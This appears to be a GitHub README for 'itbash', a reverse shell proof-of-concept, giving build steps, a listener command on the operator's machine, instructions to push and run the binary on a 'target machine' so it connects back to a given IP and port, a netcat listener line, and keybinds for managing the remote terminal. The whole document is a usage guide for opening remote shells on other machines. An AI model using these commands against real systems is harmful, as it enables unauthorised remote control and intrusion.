 # itbash
Reverse Shell POC (no pipe)

-------

BUILD
=====

Use make to compile the program:
```bash
make
```

------

USAGE
=====

On your machine, run the script with the port as first argument:
```bash
./server.sh 4444
```

On the target machine, push itbash. Run the program with address IP/hostname as the first argument and port as second.
```bash
./itbash 192.168.1.11 4444
```

By default *itbash* use localhost and the port 4444.

-----

TIPS
====

* You can use environment variables ADDRESS and PORT to configure the program.
* The program is compatible with nc. You can use nc to listen the connection on your host.

```bash
nc -nlvp 4444
```

* The script server.sh can be used with Keybinds:
* * ```Ctrl p``` : to enable command mode. You need to run this mode for enable all Keys. (If you use some others keys, the mode is disabled)
  * * ```Ctrl q``` : Exit the program.
    * ```Ctrl t``` : reset the host TTY configuration
    * ```Ctrl r``` : reconfigure PTS on the remote machine
